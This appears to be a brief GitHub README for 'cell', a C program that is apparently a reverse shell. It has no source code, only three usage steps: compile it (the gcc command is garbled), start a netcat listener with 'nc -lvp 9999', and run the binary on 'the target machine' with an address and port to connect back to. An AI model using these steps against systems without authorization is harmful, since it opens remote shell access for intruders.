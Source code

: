## cell

**Compile with gcc `$ cell.c --output cell`**  
**Set up a nc listener to the port you desire `$ nc -lvp 9999`**  
**On the target machine run `$ ./cell <address> <port>`**  

<img src="https://user-images.githubusercontent.com/69394316/229928414-12a215e7-931f-4bd9-93fd-0171607b7823.png" alt="C" width="50" height="50" />
